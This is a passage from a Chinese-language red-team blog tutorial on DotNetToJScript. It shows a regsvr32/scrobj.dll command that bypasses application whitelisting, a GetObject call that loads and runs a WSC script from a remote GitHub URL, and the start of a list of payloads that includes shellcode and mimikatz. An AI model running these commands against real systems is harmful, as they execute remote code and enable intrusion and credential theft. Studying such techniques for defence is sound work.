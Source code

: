 `regsvr32.exe /u /n /s /i:3.sct scrobj.dll`

**注：**

细节可参考之前的文章《Use SCT to Bypass Application Whitelisting Protection》

### 5、生成wsc脚本

参数如下：

`DotNetToJScript.exe -m -o 4.wsc ExampleAssembly.dll`

**启动方式1：本地调用**

通过js调用，js脚本内容如下：

`GetObject("script:C:\\test\\4.wsc");`

**注：**

需要绝对路径，wsc文件后缀名任意


**启动方式2：远程启动**

将4.wsc保存在github，地址如下：

https://raw.githubusercontent.com/3gstudent/test/master/4.wsc

js脚本内容如下：

`GetObject("script:https://raw.githubusercontent.com/3gstudent/test/master/4.wsc")`

**注：**

细节可参考之前的文章《WSC、JSRAT and WMI Backdoor》

## 0x04 利用JS/Vbs能够实现的payload汇总
---

对以上测试中的ExampleAssembly.dll，可替换成其他payload：

### 1、执行shellcode

代码可参考如下地址：

https://gist.github.com/subTee/618d40aa4229581925eb9025429d8420#gistcomment-2057305

新建c#工程，可选择c#控制台应用程序，编译成exe

生成js脚本的参数如下：

`DotNetToJScript.exe -o shellcode.js shellcode.exe`

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-30/3-4.png)

### 2、执行mimikatz

代码可参考如下地址：
